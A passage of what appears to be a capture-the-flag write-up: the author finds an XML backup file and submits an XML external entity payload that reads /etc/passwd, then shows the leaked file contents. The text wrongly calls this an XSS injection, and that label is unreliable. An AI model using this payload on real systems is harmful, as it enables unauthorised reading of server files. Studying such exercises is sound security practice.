 ```html
            <textarea id="box" name="xml" rows="10" cols="50"></textarea><br/>
            <input type="submit" id="sub" onclick="checktarea()" value="Submit"/>
        </form>
            </section>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/js/bootstrap.bundle.min.js" integrity="sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf" crossorigin="anonymous"></script>
</body>
</html>
```
- Downloaded `/auth/dontforget.bak`  and checked filetype.
```console
❯ file dontforget.bak
dontforget.bak: XML 1.0 document, Unicode text, UTF-8 text, with very long lines (873), with CRLF line terminators
```
- This is a XML file on reading found Elements for the xss injection as it has `Name`, `Author` , and `Comment` field.
```html
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
- So this page is vulnerable to XSS injection and injected the above code to read `/etc/passwd`.
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>random</com>
</comment>
<!---------------------------------------------------------------->
<h3>Comment Preview:</h3><p>Name: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
```